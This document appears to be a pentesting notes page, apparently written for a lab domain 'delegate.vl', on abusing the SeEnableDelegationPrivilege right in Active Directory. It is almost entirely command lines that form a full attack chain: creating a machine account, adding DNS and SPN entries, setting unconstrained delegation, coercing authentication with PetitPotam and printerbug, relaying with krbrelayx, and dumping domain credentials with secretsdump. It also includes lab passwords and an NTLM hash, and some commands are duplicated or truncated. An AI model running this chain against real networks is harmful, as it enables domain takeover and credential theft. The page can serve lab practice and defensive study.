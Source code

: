 # SeEnableDelegationPrivilege

Use the script: [Delegate.py](https://github.com/overgrowncarrot1/SeDelegatePrivilege/blob/main/Delegate.py) Create a password and obtain its hash:&#x20;

<figure><img src="../../../.gitbook/assets/SeEnableDelegationPrivilege.png" alt=""><figcaption></figcaption></figure>

Run the script multiple times:

{% code overflow="wrap" %}
```
python3 Delegate.py -l <lhost-ip> -r <rhost-ip> -c <computer-name> -p TestPassword321 -d delegate.vl -dc dc1.delegate.vl -u N.Thompson -P KALEB_2341 -N C7BE3644A2EB37C9BB1F248E9E0B9AFC
```
{% endcode %}

If error then do the last part manually:

```
python3 krbrelayx/krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC
```

and

```
python3 krbrelayx/printerbug.py 'realuser$:TestPassword321'@10.10.103.97 realuser.delegate.vl
```

### OR

* First create a machine account:

```
addcomputer.py -dc-ip 10.10.70.255 -computer-pass TestPassword321 -computer-name UwU delegate.vl/N.Thompson:'KALEB_2341'
```

* Add DNS record for the machine created:

```
python3 dnstool.py -u 'delegate.vl\UwU$' -p TestPassword321 -r UwU.delegate.vl -d 10.8.0.136 --action add DC1.delegate.vl -dns-ip 10.10.70.255
```

* Add UAC:

```
python3 /opt/bloodyAD/bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'UwU$' -f TRUSTED_FOR_DELEGATION
```

* Add SPN:

```
python3 ./addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional
```

and

```
python3 ./addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.v
```

* To get TGT:

```
python3 PetitPotam.py -u 'UwU$' -p 'TestPassword321' UwU.delegate.vl 10.10.85.247
```

* Convert previously used password to hash and do:

```
python3 ./krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC
```



```
python3 krbrelayx/printerbug.py 'realuser$:TestPassword321'@10.10.103.97 realuser.delegate.vl
```

* Then use secretsdump:

```
secretsdump.py 'DC1$'@DC1.delegate.vl -k -no-pass
```
